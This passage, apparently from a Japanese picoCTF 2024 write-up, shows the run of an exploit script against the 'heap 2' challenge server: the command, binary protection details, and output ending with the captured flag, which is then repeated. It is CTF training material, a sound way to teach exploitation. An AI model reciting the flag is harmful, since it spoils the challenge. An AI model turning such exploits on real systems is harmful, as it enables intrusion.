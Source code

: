 実行する。

```bash
% python exploit.py EXE=./chall HOST=mimas.picoctf.net PORT=57777
[*] '/home/laysakura/share/picoCTF2024/pwn/435-heap-2/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mimas.picoctf.net on port 57777: Done
b'x = \xa0\x11@\n'
b'picoCTF{and_down_the_road_we_go_dbb7ff66}\n'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```

<aside style="padding: 10px; border-radius: 5px; border: 1px solid #eee; background-color: transparent; width: 800px;">
⛳ picoCTF{and_down_the_road_we_go_dbb7ff66}

</aside>

### heap 3

<img src="/img/2024/03-27/Untitled%2053.png" width="550px" height="auto"> 

